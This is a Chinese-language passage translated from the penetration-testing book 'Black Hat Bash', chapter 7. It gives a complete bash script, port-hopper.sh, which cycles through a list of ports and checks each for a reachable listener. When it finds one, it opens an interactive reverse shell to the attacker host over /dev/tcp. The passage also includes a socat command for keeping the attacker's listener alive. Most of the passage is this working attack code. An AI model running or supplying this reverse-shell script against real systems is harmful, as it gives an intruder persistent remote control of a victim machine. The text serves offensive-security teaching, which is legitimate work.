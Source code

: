 > 注意

*你可以从以下链接下载本章的脚本*：[`github.com/dolevf/Black-Hat-Bash/blob/master/ch07`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch07)。

攻击者通常通过使用预定义的端口范围来实现端口跳跃。列表 7-3 通过使用多个端口执行反向 Shell 连接，具体取决于端口的可用性。

port-hopper.sh

```
#!/bin/bash
TARGET="172.16.10.1"
❶ PORTS=("34455" "34456" "34457" "34458" "34459")

listener_is_reachable() {
  local port="${1}"
❷ if timeout 0.5 bash -c "</dev/tcp/${TARGET}/${port}" 2> /dev/null; then
    return 0
  else
    return 1
  fi
}

connect_reverse_shell() {
  local port="${1}"
  bash -i >& "/dev/tcp/${TARGET}/${port}" 0>&1
}

❸ while true; do
  for port in "${PORTS[@]}"; do
  ❹ if listener_is_reachable "${port}"; then
      echo "Port ${port} is reachable; attempting a connection."
      connect_reverse_shell "${port}"
    else
      echo "Port ${port} is not reachable."
    fi
  done
  echo "Sleeping for 10 seconds before the next attempt..."
  sleep 10
done 
```

列表 7-3：使用多种端口尝试反向 Shell 连接

该脚本在一个数组中设置了几个预定义的端口：34455、34456、34457、34458 和 34459 ❶。在 ❸ 处，一个无限的 while 循环会持续尝试连接监听器。然后，我们通过使用 for 循环遍历端口，并使用 listener_is_reachable() 函数 ❹ 检查每个端口是否可达，该函数使用特殊的 */dev/tcp* 设备。请注意，我们在检查可达性时 ❷ 会先使用 timeout 命令，确保命令在设定的 0.5 秒间隔内退出。如果端口可达，我们调用 connect_reverse_shell() 函数，传入打开的端口作为参数，并使用 */dev/tcp* 向其发送交互式 shell。

由于我们正在连续进行多个网络连接（一个用于连接检查，另一个用于建立反向 shell），某些版本的 Netcat 可能不支持保持监听器的存活。为了克服这一点，我们可以使用 socat 在 Kali 主机上设置 TCP 监听器。该工具将确保监听器保持活跃：

```
$ **socat - tcp-listen:34459,fork**
```
